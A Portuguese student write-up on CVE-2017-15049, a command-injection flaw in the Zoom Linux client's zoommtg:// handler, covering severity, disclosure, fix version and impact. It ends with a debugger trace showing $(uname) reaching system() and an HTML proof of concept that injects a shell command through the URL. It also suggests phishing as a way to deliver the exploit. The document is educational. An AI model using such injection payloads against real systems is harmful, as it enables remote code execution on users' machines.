 
# Trabalho realizado na Semana #3

# [CVE-2017-15049](https://nvd.nist.gov/vuln/detail/CVE-2017-15049)

## Identificação

- Este é um problema de segurança que ocorreu com a aplicação **Zoom Client** para Linux, este bug foi descoberto em 17/12/2017.
- A vulnerabilidade permitiu que uma pessoa mal-intencionada injetasse comandos maliciosos em um computador usando o [Zoom](https://zoom.us/).    
- O [Exploit](https://www.exploit-db.com/exploits/43354) para a vulnerabilidade CVE-2017-15049 está disponível no site do Exploit-DB.
- Afetada por esta vulnerabilidade está uma função desconhecida do arquivo ZoomLauncher do componente zoommtg:/ Scheme Handler.

## Catalogação

- Autor e Autor do reporting: [Conviso](https://www.convisoappsec.com/) (empresa), o seu nível de gravidade é: **8.8** no "National Institute of Standards and Technology"
- O bug foi descoberto em 17/12/2017. A weakness foi apresentada em 19/12/2017 como postagem confirmada da lista de discussão (Divulgação Completa). É possível ler o comunicado em [seclists.org](https://seclists.org/) .
- O sistemas operacionais afetados são: Linux mais propriamente a distribuição Debian, logo sistemas como ubuntu foram afetados.
- A vulnerabilidade foi corrigida na versão 2.0.1 ou superior do Zoom Client.

## Exploit

- O ataque pode ser lançado remotamente **(RCE)**. O exploit não precisa de nenhuma forma de autenticação. Todos os detalhes técnicos e também um exploit são conhecidos.
- Resumidamente, o exploit é um tipo de Remote Code Execution (RCE) no aplicativo Zoom que injeta um payload malicioso na variável $rsi, passada como argumento para a função system() na chamada de uma função do zoom. Esse payload injeta um código malicioso em uma página HTML que é aberta pelo aplicativo Zoom. 
- Este exploit teria alta impacto na sociedade pois o zoom é um aplicativo muito utilizado para reuniões online, e com este exploit seria possível que um invasor pudesse ter acesso a uma reunião online e assim ter acesso a informações confidenciais.
- A vulnerabilidade foi tratada como uma exploração não pública de dia zero por pelo menos 2 dias. Durante esse tempo, o preço subterrâneo estimado era de cerca de 5 mil a 25 mil dolares americanos.

## Ataques

- Felizmente não foram encontrados relatos de ataques bem-sucedidos usando essa vulnerabilidade talvez porque tenha sido alertado a tempo.
- A vulnerabilidade poderia permitir que um invasor execute comandos maliciosos em uma máquina comprometida, o que pode resultar em: Perda de dados, roubo de informações e outras atividades maliciosas.
- Para prevenir estes ataques poderiamos utilizar o [Zoom](https://zoom.us/) em sistemas operacionais que não sejam Linux, ou então poderiamos atualizar o aplicativo para a versão mais recente.
- Uma das maneiras que podiamos utilizar este exploit podemos usar técnicas de engenharia social ou phishing para obter acesso a um sistema alvo e, em seguida, explorar essa vulnerabilidade injetando comandos maliciosos na linha de comando do aplicativo ZoomLauncher.


**Possivel Exploit**
```shell
  gef>  r '$(uname)'
    Starting program: /opt/zoom/ZoomLauncher '$(uname)'
    ZoomLauncher started.
    cmd line: $(uname)
    $HOME = /home/user

    Breakpoint 5, 0x0000000000401e1f in startZoom(char*, char*) ()
    gef>  x/3i $pc
    => 0x401e1f <_Z9startZoomPcS_+744>:     call   0x4010f0 <strcat@plt>
       0x401e24 <_Z9startZoomPcS_+749>:     lea    rax,[rbp-0x1420]
       0x401e2b <_Z9startZoomPcS_+756>:     mov    rcx,0xffffffffffffffff
    gef>  x/s $rdi
    0x7fffffffbf10: "export SSB_HOME=/home/user/.zoom; export QSG_INFO=1; export
    LD_LIBRARY_PATH=/opt/zoom;/opt/zoom/zoom \""
    gef>  x/s $rsi
    0x7fffffffd750: "$(uname) "
    gef>  c
    Continuing.
    export SSB_HOME=/home/user/.zoom; export QSG_INFO=1; export
    LD_LIBRARY_PATH=/opt/zoom;/opt/zoom/zoom "$(uname) "

    Breakpoint 6, 0x0000000000401e82 in startZoom(char*, char*) ()
    gef>  x/3i $pc
    => 0x401e82 <_Z9startZoomPcS_+843>:     call   0x401040 <system@plt>
       0x401e87 <_Z9startZoomPcS_+848>:     mov    DWORD PTR [rbp-0x18],eax
       0x401e8a <_Z9startZoomPcS_+851>:     mov    eax,DWORD PTR [rbp-0x18]
    gef>  x/s $rdi
    0x7fffffffbf10: "export SSB_HOME=/home/user/.zoom; export QSG_INFO=1; export
    LD_LIBRARY_PATH=/opt/zoom;/opt/zoom/zoom \"$(uname) \""

    --- RCE POC ---
    <html>
        <head>
        </head>
        <body>
            <h1>Zoom POC RCE</h1>
            <script>
                window.location = 'zoommtg://$(gnome-calculator${IFS}-e${IFS}1337)'
            </script>
        <body>
    </html>
    ``` 
